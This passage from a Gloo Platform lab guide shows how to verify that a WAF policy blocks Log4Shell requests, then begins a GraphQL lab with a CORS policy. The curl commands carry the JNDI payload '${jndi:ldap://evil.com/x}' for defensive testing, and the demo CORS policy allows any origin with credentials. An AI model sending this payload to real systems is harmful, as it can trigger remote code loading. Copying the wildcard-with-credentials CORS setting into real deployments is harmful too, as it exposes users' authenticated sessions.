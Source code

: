 4. Try the previous request again on multiple endpoints

```sh
# Products API
curl -ik -X GET -H "x-api-key: developer" -H "User-Agent: \${jndi:ldap://evil.com/x}" https://$GLOO_GATEWAY_HTTPS/products

# Currency API
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/currencies
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your applications are no longer susceptible to `log4j` attacks, nice!


## Lab 12 - Graphql<a name="graphql"></a>

GraphQL is an open-source data query language for APIs that is growing in popularity among enterprises seeking to simplify client-server interactions. It provides a powerful and flexible alternative to standards like OpenAPI for requesting data from microservices applications via declarative data fetching, with a client specifying exactly what data it needs from an API and underlying services through a single endpoint.

Although GraphQL provides a consistent and predictable API, the code, time, and effort required to build the GraphQL server to respond to requests can be considerable, requiring developers to write specific libraries for caching, security, rate-limiting, failover, and many other functions.

In this section, we will begin our exploration of using Gloo Platform to publish GraphQL APIs without the need for a dedicated, backend GraphQL server.

* To enable graphql we are going to add a demo `CORSPolicy` to make communicating with the GraphQL easy
```yaml
kubectl apply -f -<<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: CORSPolicy
metadata:
  name: cors-policy
  namespace: online-boutique
spec:
  applyToRoutes:
  - route:
      labels:
        ingress: all
  config:
    allowCredentials: true
    allowHeaders:
    - content-type
    allowMethods:
    - POST
    allowOrigins:
    - regex: '.*'
EOF
```
